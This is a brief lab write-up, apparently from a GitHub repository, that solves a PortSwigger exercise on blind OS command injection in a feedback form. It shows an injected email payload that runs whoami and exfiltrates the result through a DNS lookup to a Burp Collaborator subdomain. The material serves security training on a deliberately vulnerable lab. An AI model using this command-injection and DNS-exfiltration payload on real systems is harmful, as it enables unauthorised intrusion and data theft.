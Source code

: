 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab

### Solution

captured the feedback POST request and modified the email with the payload 

||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||

then inserted the burp collaborator payload for the subdomain

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/cfc79693-a7b3-4e25-83e4-08f07bfe4312)

At the collaborator tab, the current user name was identified succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0ac5a211-1b99-498c-b44f-6083c15ced6d)

Submitted the soultion and completed the lab succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6e15be3f-a669-42a6-bf52-96fc37cd5507)
